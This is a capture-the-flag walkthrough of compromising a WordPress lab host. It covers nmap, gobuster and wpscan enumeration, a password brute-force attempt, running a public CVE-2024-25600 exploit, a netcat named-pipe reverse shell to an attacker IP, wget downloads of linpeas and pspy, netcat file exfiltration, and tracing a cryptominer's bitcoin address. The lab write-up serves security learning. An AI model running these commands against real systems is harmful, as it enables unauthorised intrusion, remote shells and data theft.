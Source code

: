 # Bricks Heist - Easy

* nmap scan - ```nmap -T4 -p- -A -Pn -v 10.10.10.139``` -

  * 22/tcp - ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
  * 80/tcp - http - WebSockify Python/3.8.10
  * 443/tcp - ssl/http - Apache httpd
  * 3306/tcp - mysql - MySQL (unauthorized)

* Mapped ```bricks.thm``` to target IP in ```/etc/hosts``` as given, maybe indicates something to do with vhosts/domains

* On port 80, we get 'Error response' with error code 405 for 'Method Not Allowed'; same goes for 'bricks.thm'

* However, the HTTPS page includes the page for 'Brick by Brick'; from <https://bricks.thm>, from the favicon we can confirm it's running on WordPress. We can check the page source and get some more context.

* From the ```nmap``` scan, we also find out that on port 443, there's a ```robots.txt``` file which includes an entry for '/wp-admin/', and leads us to WordPress login page

* We can simultaneously do a directory scanning for both HTTP and HTTPS pages:

  ```sh
  gobuster dir -u http://bricks.thm -w /usr/share/dirb/wordlists/big.txt -x txt,php,html,bak -t 16

  gobuster dir -u https://bricks.thm -k -w /usr/share/dirb/wordlists/big.txt -x txt,php,html,bak -t 16
  # -k is added to ignore x509 invalid cert issues
  ```

* From directory scanning, we get a few hits - interesting folders include '/0', '/0000', 'B', '/admin' (redirect to '/wp-admin'), '/phpmyadmin'

* For these directories, we can check for any subdirectories or files:

  ```sh
  gobuster dir -u https://bricks.thm/0 -k -w /usr/share/dirb/wordlists/small.txtl -x txt,php,html,bak -t 16

  gobuster dir -u https://bricks.thm/0000 -k -w /usr/share/dirb/wordlists/small.txtl -x txt,php,html,bak -t 16
  # we get some 
  ```

* We can also try using ```wpscan``` for Wordpress enumeration:

  ```sh
  wpscan --url https://bricks.thm --enumerate --disable-tls-checks
  # xmlrpc is enabled
  # WP version 5.7
  # administrator user found
  # bricks theme being used

  wpscan --url https://bricks.thm --enumerate t --disable-tls-checks
  # to enumerate theme only

  # bruteforce for 'administrator'
  wpscan --url https://bricks.thm --disable-tls-checks --password-attack xmlrpc -t 20 -U administrator -P /usr/share/wordlists/rockyou.txt
  # no luck
  ```

* We can also check if there are other vhosts/domains:

  ```sh
  dig bricks.thm 10.10.10.139

  dig axfr @10.10.10.139 bricks.thm

  gobuster vhost -u http://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt

  gobuster vhost -u https://bricks.thm -k -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
  ```

* Now, for the Bricks theme version 1.9.5 found from ```wpscan```, we get an [unauthenticated RCE exploit](https://github.com/Chocapikk/CVE-2024-25600) for versions lower than 1.9.6 - the CVE-ID associated is CVE-2024-25600:

  ```sh
  git clone https://github.com/Chocapikk/CVE-2024-25600.git

  cd CVE-2024-25600/

  pip install -r requirements.txt

  python exploit.py -u https://bricks.thm
  # we get RCE
  ```

* To move to a stable shell, we can setup a listener using ```nc -nvlp 1234``` and execute the following payload in victim machine - ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.243.37 1234 >/tmp/f``` - this gives us a reverse shell:

  ```sh
  id
  # apache

  # get a stable shell
  python -c 'import pty;pty.spawn("/bin/bash")' #to spawn a bash shell
  export TERM=xterm
  #background shell using Ctrl+Z, and in our terminal
  stty raw -echo; fg #turns echo off and foregrounds shell

  pwd

  ls
  # we have a flag here

  # we can use linpeas.sh for basic enumeration
  cd /tmp

  which wget

  wget http://10.10.243.37:8000/linpeas.sh

  chmod +x linpeas.sh

  ./linpeas.sh
  # I had to set unlimited scrolling in my terminal to view entire output
  ```

* From the given question, we need to find suspicious processes - using ```ps aux``` or ```ps -ef``` does not give anything, so we need to check using ```pspy``` as well:

  ```sh
  # on attacker machine, start server again
  # in reverse shell, fetch pspy binary

  wget http://10.10.243.37:8000/pspy64

  chmod +x pspy64

  ./pspy64
  # monitor the processes
  ```

* Using ```pspy64```, we can see that roughly every 4 minutes, a process ```/lib/NetworkManager/nm-inet-dialog``` is seen, and it is run with UID=0 (root). This is followed by it running ```uname -p``` and ```sh -c clear``` commands

* Now, to find the service associated with this process:

  ```sh
  systemctl list-units --type=service
  # this shows a service running with an interesting description

  systemctl status ubuntu.service
  # this confirms the above
  ```

* Now, to inspect this ```nm-inet-dialog``` binary further, we can transfer this file from victim to our machine:

  ```sh
  # in attacker machine
  nc -lvp 8888 > nm-inet-dialog

  # in victim machine
  cd /lib/NetworkManager

  nc 10.10.243.37 8888 -w 3 < nm-inet-dialog
  ```

* To analyze the binary in our machine, we can use ```strings nm-inet-dialog -n 8```, but this does not give much context

* As the question mentions a miner instance, we can check this file in VirusTotal for any hits

* From VirusTotal, the binary is flagged as malicious, and we can see that under 'Relations', one of the contacted domains includes <blockchain.info>; we can also confirm from 'Behavior', where highlighted text includes 'Mining'

* From the same tab, if we inspect 'Files Written', one of the files stand out - when we check this file, we can see that this is where the miner instance logged everything

* We have an ID given in this file - it seems encoded, so we can use CyberChef. It automatically decodes it From Hex, then twice from Base64

* This gives us a string - it is too lengthy to be a blockchain address. Checking further, it starts from 'bc1', which indicates 'bech32' (or Native Segwit) addresses

* In our string, we have two 'bc1' sub-strings - only one of them seems to be a valid addresses, after checking from <www.blockchain.com>

* For the valid address, we can view the addresses associated with higher BTCs transferred, and follow the paper trail; we can lookup the suspect IDs, which will show us the threat actor.
